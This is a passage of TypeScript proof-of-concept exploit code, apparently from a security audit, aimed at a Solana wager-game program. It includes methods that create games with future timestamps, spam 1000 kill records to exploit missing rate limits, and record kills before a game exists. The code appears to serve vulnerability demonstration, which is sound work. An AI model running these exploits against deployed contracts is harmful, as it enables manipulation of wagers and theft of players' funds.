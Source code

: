 ```typescript
                    "future_game",
                    1000,
                    GameMode.WinnerTakesAllFiveVsFive
                )
                .accounts({
                    gameSession: this.getSessionPDA("future_game"),
                    gameServer: this.attackerKeypair.publicKey,
                    systemProgram: SystemProgram.programId,
                })
                .signers([this.attackerKeypair])
                .rpc();

            console.log("Game created with future timestamp");

            // 2. Game now has infinite join window due to negative time calculation
        } catch (error) {
            console.log("Future timestamp attack failed:", error);
        }
    }

    async exploitTemporalRateLimiting(): Promise<void> {
        // 3. Exploit lack of temporal rate limiting
        const sessionId = "rate_limit_test";
        await this.createGame(sessionId);

        // 4. Record multiple kills at same timestamp
        const victims = await this.getOpponentPlayers(sessionId);

        for (let i = 0; i < 1000; i++) {
            try {
                await this.wagerProgram.methods
                    .recordKill(
                        sessionId,
                        0, // Attacker's team
                        this.attackerKeypair.publicKey,
                        1, // Opponent team
                        victims[i % victims.length]
                    )
                    .accounts({
                        gameSession: this.getSessionPDA(sessionId),
                        gameServer: this.gameServerKeypair.publicKey,
                    })
                    .signers([this.gameServerKeypair])
                    .rpc();

            } catch (error) {
                // Some kills may fail, but many will succeed
            }
        }

        console.log("Attempted 1000 kills with no temporal rate limiting");
    }

    async exploitTemporalOrdering(): Promise<void> {
        // 5. Create temporal paradoxes
        const sessionId = "temporal_paradox";

        // Record kill before game is created
        try {
            await this.wagerProgram.methods
                .recordKill(
                    sessionId,
                    0,
```